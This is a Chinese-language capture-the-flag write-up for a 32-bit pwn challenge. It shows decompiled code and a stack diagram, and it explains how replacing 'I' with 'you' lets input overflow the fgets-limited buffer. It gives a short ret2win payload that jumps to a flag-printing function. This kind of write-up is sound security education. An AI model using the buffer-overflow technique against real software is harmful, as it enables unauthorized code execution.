

先查看防护

查看汇编代码

~~~asm
08048f0d    int32_t get_flag()

08048f20        return system(line: "cat flag.txt")

080491af    int32_t vuln()

080491bd        printf(format: "Tell me something about yourself: ")
080491d9        char var_40[0x20]
080491d9        fgets(buf: &var_40, n: 0x20, fp: __TMC_END__)
080491ec        std::string::operator=(this: &input, __s: &var_40)
080491f7        class std::allocator<char> __a
080491f7        std::allocator<char>::allocator(this: &__a)
08049211        class std::string var_1c
08049211        std::string::string(this: &var_1c, __s: "you", &__a)
0804921c        class std::allocator<char> __a_1
0804921c        std::allocator<char>::allocator(this: &__a_1)
08049236        class std::string var_14
08049236        std::string::string(this: &var_14, __s: "I", __a: &__a_1)
08049257        class std::string __str
08049257        replace(&__str, &input, &var_14, &var_1c)
0804926d        std::string::operator=(this: &input, &__str)
08049278        std::string::~string(this: &__str)
08049283        std::string::~string(this: &var_14)
0804928e        std::allocator<char>::~allocator(this: &__a_1)
08049299        std::string::~string(this: &var_1c)
080492a4        std::allocator<char>::~allocator(this: &__a)
080492bf        strcpy(&var_40, std::string::c_str(this: &input))
080492d2        return printf(format: "So, %s\n", &var_40)
~~~

首先提供了获取flag的函数，其次这次输入使用的是fgets而不是gets。fgets限制了用户输入的长度，不能直接溢出。继续查看后续代码：

关键代码：

~~~asm
08049211        std::string::string(this: &var_1c, __s: "you", &__a)

08049236        std::string::string(this: &var_14, __s: "I", __a: &__a_1)

08049257        replace(&__str, &input, &var_14, &var_1c)

080492bf        strcpy(&var_40, std::string::c_str(this: &input))
~~~

程序会把用户输入的“I”换成“you”。这就意味着我们意味着相比输入0x20个A，0x20个I就会造成溢出从而绕过fget限制的长度。

查看汇编代码：

~~~asm
080491d3  8d45c4             lea     eax, [ebp-0x3c {var_40}]
~~~

栈图如下：

~~~
+-------------------------+
|          rip            |   
+-------------------------+
|          ebp            |   
+-------------------------+
|                         |
+-------------------------+
|          var_40         | ← ebp-0x3c
+-------------------------+  
|                         |
|                         |
+-------------------------+ 
~~~

0x3c是60，所以我们需要输入20个I就可以成功溢出。

该代码是32位编译的，所以地址长度是4位

payload构造

~~~python
payload = b'I'*20+b'B'*4+p32(0x8048f0d)
~~~

